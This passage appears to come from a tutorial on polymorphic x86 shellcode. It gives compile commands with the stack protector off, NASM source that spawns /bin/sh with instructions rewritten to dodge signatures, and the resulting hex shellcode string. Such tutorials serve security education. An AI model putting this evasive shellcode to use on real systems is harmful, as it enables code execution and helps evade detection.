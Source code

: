 now let's compile it

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

and let's run it

```
$ ./shellcode 
Shellcode Length:  34
$ 
$ 
$ 
```

and fantastic. we now have again `/bin/sh` shellcode where the `push`
instructions have been replaced. Of course, if you notice basically
we have an increased shellcode length. it's 34 from 25. Let's go
to `poly.nasm` if we can complicate things further.

```asm
global _start

section .text
_start:

        ; PUSH the first null dword
        xor eax, eax
        push eax

;       mov dword [esp-4], 0x68732f2f
        mov esi, 0x57621e1e
        add esi, 0x11111111
        mov dword [esp-4], esi

        mov dword [esp-8], 0x6e69622f
        sub esp, 8
```

Now this one instruction

```
mov dword [esp-4], 0x68732f2f
```

has been expanded to these three

```
        mov esi, 0x57621e1e
        add esi, 0x11111111
        mov dword [esp-4], esi
```

And let me follow the exact same process

```
$ nasm -f elf32 poly.nasm
$ ld -o poly  poly.o
$ shellcode-dump.sh poly
"\x31\xc0\x50\xbe\x1e\x1e\x62\x57\x81\xc6\x11\x11\x11\x11\x89\x74\x24\xfc\xc7\x44\x24\xf8\x2f\x62\x69\x6e\x83\xec\x08\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
